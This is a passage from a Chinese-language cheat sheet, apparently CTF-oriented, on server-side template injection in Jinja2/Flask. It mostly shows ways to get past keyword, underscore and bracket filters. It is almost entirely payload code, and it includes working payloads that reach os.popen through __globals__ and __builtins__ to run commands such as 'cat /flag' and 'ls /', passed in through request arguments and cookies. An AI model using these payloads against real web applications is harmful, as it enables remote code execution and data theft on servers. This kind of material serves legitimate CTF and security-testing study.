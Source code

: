 #### 翻转
```python
''.__class__ = ''['__ssalc__'[::-1]]
```

#### str()内置方法
```python
''.__class__ = ""['__cTass__'.replace("T","l")] = ''['X19jbGFzc19f'.decode('base64')] = ''['__CLASS__'.lower()]
```

#### request
```python
''.__class__ = ''[request.args.a]?a=__class__
# 又如 ''.__class__.__mro__[2].__subclasses__() = ''[request.args.a][request.args.b][2][request.args.c]()?a=__class__&b=__mro__&c=__subclasses__
```
再如：
```python
{{x.__init__.__globals__[request.cookies.x1].eval(request.cookies.x2)}}
#然后首部设置Cookie:x1=__builtins__;x2=__import__('os').popen('cat /flag').read()

{{""[request["args"]["class"]][request["args"]["mro"]][1][request["args"]["subclass"]]()[286][request["args"]["init"]][request["args"]["globals"]]["os"]["popen"]("ls /")["read"]()}}
#post或者get传参 class=__class__&mro=__mro__&subclass=__subclasses__&init=__init__&globals=__globals__ (适用于过滤下划线)
```
#### 过滤器
`format`：
```python
''.__class__ = ''["%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)]
```
`join`：
```python
''.__class__ = ''[('__clas','s__')|join]
```
`reverse`：
```python
''.__class__ = ''["__ssalc__"|reverse]
```
`replace`：
```python
''.__class__ = ''["__clall__"|replace("ll","ss")]
```

### 2.1 过滤中括号`[]`
#### `__getitem__`或`__getattribute__`
```python
# __getitem__用于获取字典中的键值
url_for.__globals__['__builtins__'] = url_for.__globals__.__getitem__('__builtins__')
# __getattribute__用于获取属性
''.__class__ = ''.__getattribute__('__class__')
```
